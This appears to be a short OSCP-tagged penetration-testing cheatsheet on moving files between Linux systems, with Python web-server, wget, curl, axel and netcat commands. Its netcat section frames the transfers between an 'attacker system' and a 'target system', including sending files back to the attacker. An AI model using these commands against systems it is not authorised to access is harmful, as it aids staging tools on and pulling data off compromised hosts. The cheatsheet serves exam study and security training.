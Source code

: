 ```yaml
---
title: Linux File Transfers
author: linatl
category: "OSCP"
date: "2021-03-20 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Start a webserver
```
Python3
$ sudo python3 -m http.server 80
Python2
$ sudo python -m SimpleHTTPServer 80
```

###### Download from bash
```
$ wget 192.168.1.1:443/file.txt
$ curl 192.168.1.1:443/file.txt -o file.txt
$ axel 192.168.1.1:443/file.txt -o file.txt
```

###### netcat
```
On the target system:
$ nc -lvp 80 > file.txt
On the attacker system:
$ nc 192.168.1.1 80 < file.txt

Also works the other way, to get files back to the attacker system
```
